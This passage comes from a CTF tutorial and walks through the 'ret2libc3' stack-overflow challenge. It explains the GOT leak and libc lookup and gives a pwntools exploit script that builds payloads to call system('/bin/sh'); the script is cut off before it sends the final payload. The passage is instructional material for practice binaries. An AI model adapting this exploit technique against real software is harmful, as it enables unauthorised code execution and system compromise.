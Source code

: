 <div align=center><img src="./images/35.png"></div>

### Example 3
Program download link: [ret2libc3](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc3/ret2libc3).

Based on `Example 2`, remove the address of the `system` function again. At this time, you need to find the address of the `system` function and the address of the `/bin/sh` string.

In the process of obtaining the address of the `system` function, two knowledge points are mainly used:
 - The `system` function belongs to `libc`, and the relative offset between functions in the `libc.so` dynamic link library is fixed.
 - Even if the program has `ASLR` protection, it is only random for the middle bit of the address, and the lowest `12` bit will not change. [libc collection](https://github.com/niklasb/libc-database)

Therefore, when we know the address of a function in `libc`, we can determine the `libc` used by the program. Then we can know the address of the `system` function. For obtaining the address of a function in `libc`, our commonly used method is to use the `got` table leakage, that is, output the content of the `got` table entry corresponding to a function. Due to the delay binding mechanism of `libc`, we need to leak the address of the function that has been executed. After obtaining `libc` according to the above steps, query the offset in the program, and then obtain the `system` address again. In addition to the manual operation method, here is a `libc` utilization tool - [LibcSearcher](https://github.com/lieanu/LibcSearcher). `libc` also has `/bin/sh` string, After getting `libc`, we can get the address of the `/bin/sh` string together.

For this question, we use the method of leaking the `__libc_start_main` address, because it is where the program is initially executed. The basic utilization idea is as follows:
 - Leaked `__libc_start_main` address.
 - Get the `libc` version.
 - Get the address of `system` and `/bin/sh`.
 - Execute the source program again, triggering the stack overflow execution of `system('/bin/sh')`.

`exploit` is as follows:

```python
# coding=utf-8
from pwn import *
from LibcSearcher import *

sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')
puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']

print "leak libc_start_main_got addr and return to main again"
payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter('Can you find it !?', payload)

print "get the related addr"
libc_start_main_addr = u32(sh.recv()[0:4])
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

print "get shell"
payload = flat(['A' * 104, system_addr, 'aaaa', binsh_addr])
```